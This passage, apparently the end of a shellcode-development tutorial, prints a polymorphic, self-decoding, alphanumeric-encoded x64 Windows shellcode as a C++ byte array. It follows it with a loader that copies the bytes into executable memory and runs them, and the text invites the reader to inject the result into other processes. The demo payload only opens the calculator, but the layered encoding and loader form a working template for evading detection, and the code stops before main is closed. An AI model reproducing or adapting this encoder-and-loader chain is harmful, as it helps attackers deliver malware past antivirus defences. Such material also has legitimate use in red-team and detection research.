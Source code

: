 When you run that, you will get something like this:

<img width="1460" height="496" alt="image" src="https://github.com/user-attachments/assets/2b381499-73e7-49ca-8252-6ed4d99b8fc1" />

That's it!  You've done it!  That is the final shellcode we were looking for.  So what did we just do?  Well, we...

- We started with a barebones x64 assembly template that uses WinExec to spawn the windows calculator
  -  This assembly code is also unique in that it locates the kernel32 base starting with TEB, then locating PEB, then locating kernel32 by it's unicode string via a string comparison
- Layered our original shellcode with benign assembly instructions which introduce randomness to our code
- We introduced a self-decoding Bitwise NOT + XOR encoded shellcode
- We then took that shellcode and added yet another layer of polymorphism and made it Alpha/Mix compatible.

I may have missed something in the bullet points above, but that' the gist of it.  Now, you can use this final form of shellcode any way you like.  You can inject it into another process, run it as is, etc.  I'll go ahead and just run it as-is for demonstration purposes.  

```cpp
#include <windows.h>
#include <iostream>

const unsigned char shellcode[] =
"H" "\x8d" "5" "#" "\x00" "\x00" "\x00" "D" "\x8a" "\r" "B" "\x00" "\x00" "\x00" "¹" "\x98" "\x01" "\x00" "\x00" "\x8a" "\x06" "D" "0" "È" "ö" "Ð" "\x88" "\x06" "H" "ÿ" "Æ" "â" "ò" "H" "\x8d" "\x05" "\x02" "\x00" "\x00" "\x00" "ÿ" "à" "\x1e" "Ô" "µ" "\x1b" "Ð" "¿" "{" "\x1b" "Þ" "l" "\x1b" "Ð" "·" "£" "\x1e" "Ô" "§" "\x1b" "b" "\x9a" "\x1a" "Ô" "¯" "6" "\x1b" "Ø" "W" "v" "c" "S" "S" "S" "\x1b" "Ø" "\x13" "3" "\x1b" "b" "¬" "\x1b" "Ø" "\x13" "K" "\x1a" "Ô" "\xad" "\x1b" "Ø" "#" "C" "\x1b" "Ð" "\x94" "S" "\x1b" "Ø" "e" "\x1f" "Ô" "¼" "\x1b" "Ø" "\x1d" "3" "\x1f" "Ô" "¼" "\x1b" "Ø" "J" "\x1e" "Ô" "¿" "\x1b" "é" "\x18" "S" "\x16" "S" "\x01" "S" "\x1d" "S" "\x1b" "b" "¬" "\x1b" "j" "\x80" "\'" "[" "\x1a" "Ô" "¯" "&" "\x85" "\x1f" "Ô" "´" "\x1b" "Ø" "\r" "c" "\x1e" "Ú" "¥" "\x1a" "Ú" "\x8b" "\x1e" "Ô" "¶" "Ø" "\x08" "o" "\x1e" "8" "·" "R" "\x1f" "R" "\x90" "\x1e" "Ú" "·" "\x1b" "b" "\x9a" "\x1a" "\x92" "¶" "S" "5" "Ò" "\x92" "¬" "Û" "\x1e" "Ô" "½" "\x1b" "\x92" "º" "[" "\x1a" "\x92" "\x9f" "S" "Ø" "G" "X" "\x1f" "Ô" "´" "\x1f" "R" "\x91" "\x1e" "Ú" "¾" "\x17" "Ø" "\x01" "G" "\x1e" "b" "¾" "\x1e" "b" "\x88" "\x1a" "Ð" "¿" "S" "\x17" "Ø" "\t" "s" "\x1a" "Ð" "\xad" "S" "\x1e" "R" "\x90" "\x1e" "Ô" "½" "\x1f" "Ú" "\x82" "\x1f" "Ô" "¼" "\x1b" "ë" "û" "Å" "Â" "é" "Ô" "É" "Ï" "<" "\x1b" "\x92" "\x9c" "S" "\x1b" "¤" "\x83" "\x1a" "Ô" "®" "\x1b" "\x92" "³" "[" "\x1e" "Ú" "¾" "\x1b" "\x92" "»" "[" "\x1e" "Ô" "µ" "\x03" "\x1e" "Ö" "¥" "\x1b" "Ú" "³" "\x1a" "Ô" "\xad" "\x1b" "Ð" "\x97" "[" "\x1e" "Ú" "·" "4" "°" "c" "\x1a" "Ô" "\xad" "b" "\x88" "\x1a" "Ô" "¯" "\x12" "Ø" "O" "Ø" "\x1b" "\x92" "´" "S" "\x1f" "R" "\x90" "\x1e" "Ô" "µ" "\x1b" "¬" "\x9a" "\x1a" "Ô" "¯" "\x1f" "Ø" "[" "\x1e" "Ô" "§" "\x1f" "j" "X" "\'" "^" "\x1e" "Ô" "½" "&" "\x82" "\x1a" "\x92" "µ" "S" "\x9f" "\x1a" "Ô" "¯" "¬" "\x92" "\x1e" "Ö" "·" "\x1e" "b" "\x88" "\x1e" "Ô" "§" "\x17" "Ø" "\t" "O" "\x1f" "Ô" "¤" "\x1e" "R" "\x90" "\x1e" "Ô" "¿" "\x16" "Ø" "o" "Ø" "\x1a" "Ô" "\xad" "\x1e" "R" "\x94" "\x1e" "b" "¥" "\x1b" "b" "\x93" "\x1a" "Ð" "\x96" "S" "\x03" "\x1a" "Ô" "®" "\x1b" "ë" "Ï" "Í" "À" "Ï" "\x82" "É" "Ô" "É" "\x1a" "Ð" "¯" "S" "\x1b" "¤" "\x83" "\x1e" "Ô" "½" "\x03" "\x1a" "Ô" "\xad" "\x1b" "Ú" "²" "\x1e" "Ö" "·" "\x1b" "b" "\x81" "\x1e" "Ô" "½" "\x1b" "¬" "\x91" "\x1a" "Ô" "\xad" "\x1b" "Ð" "¿" "c" "\x1a" "Ô" "¯" "\x12" "¬" "\x84" "\x1e" "Ô" "§" "S" "S" "S" "S" "S";

int main() {
    size_t shellcode_size = sizeof(shellcode);
    void* exec_mem = VirtualAlloc(nullptr, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }

    memcpy(exec_mem, shellcode, shellcode_size);
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();

```
